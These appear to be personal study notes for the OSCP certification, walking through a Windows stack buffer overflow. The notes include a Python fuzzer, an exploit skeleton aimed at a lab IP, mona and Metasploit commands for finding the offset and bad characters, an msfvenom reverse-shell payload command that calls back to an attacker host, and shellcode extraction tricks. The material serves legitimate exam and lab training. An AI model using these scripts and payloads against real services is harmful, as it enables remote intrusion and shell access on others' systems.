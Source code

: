 # Binary Exploitation

## OSCP Buffer Overflow
Debugger: Immunity Debugger + Mona python scripts
Configure Mona with `!mona config -set workingfolder c:\mona\%p`. This sets the directory where we can find mona output files.
### 1. Fuzzing
Use python with `sockets` library to send and receive data to service. Send base buffer and increntally send larger input sets until the service crashes.
```python
#!/usr/bin/env python3
# fuzzer.py

import socket, time, sys

ip = "10.10.190.41"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```


### 2. Crash Replication and Controlling EIP
Use another script (exploit.py) for sending payloads.
```python
# exploit.py
import socket

ip = "10.10.190.41"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Prepare a cyclic pattern to send as payload to identify the offset for the __EIP__. The length will be determined by the length necessary to crash the sevice in the previous step. Generate the pattern with metasploit. Set the length 400 bytes larger than the strings used to crash the service. (I think the +400 bytes is arbitrary)
```bash
# cyclic pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <num>
# or non-cyclic pattern
msf-pattern_create -l <num>
```
Identify EIP offset
```
!mona findmsp  -distance <xxx>
```
If mona doesn't pick up anything try a larger pattern. Try adjusting down the offset. Adjust the exploit.py `offset` to match the EIP offset from the previous step. Populate `retn` with "BBBB" and re-run the exploit. EIP should be filled with "B"s (\x42)
### 3. Find Bad Characters Generate a byte array with mona excluding bad characters. Exclude null byte by default.  ```bash
!mona bytearray -b "\x00"
# example with more bad chars
!mona bytearray -b "\x00\x07\x08\x2e\x2f\xa0\xa1"
```
Python script to generate bytearray.
```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Run exploit.py with the bytearray payload. Crosscheck the hexdump with the payload to find any bad chars. This can be done manually or with mona. If there are no bad chars, the output status should be "Unmodified".
```bash
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
# <address> refers to the ESP when the service stopped/crashed
```
Remove any bad chars and repeat until the entire payload is sent successfully.

### 4. Find a Jump Point
Use mona to find all the `jmp esp` instructions with addresses that don't contain any of the bad chars.
```bash
!mona jmp -r esp -cpb "\x00"
# example with more bad chars
!mona jmp -r esp -cpb "\x00\x07\x08\x2e\x2f\xa0\a1"
```

Replace `retn` in exploit.py with one of the addresses found.
Don't forget to put it in "backwards" since our target has an Intel CPU which is little endian.

### 5. Generate Payload
Generate shell code to be used as payload.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.86.88 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c
```
This creates `c` shell code.
#### NOTE: don't forget to add a nop sled. The payload will most likely need some space in memory to unpack itself.

### 6. Exploit



## Tips and Tricks
### x86_64 Assembly / Shellcrafting
```bash
# Get shell code from objdump
objdump -Mintel -D shell_asm | grep -ioP "[a-z0-9]{6}:\W\K(([a-z0-9][a-z0-9].)*)" | paste -d '' -s | sed 's/\s$//g' | sed 's/^/\\\x/' | sed 's/ /\\\x/g'

# assemble some 64 bit assembly
nasm -f elf64 <file>

# link some assembly
ld <object_file> -o <output_file>

# pwntools shellcraft setreuid to 1002
pwn shellcraft -f d amd64.linux.setreuid 1002
```

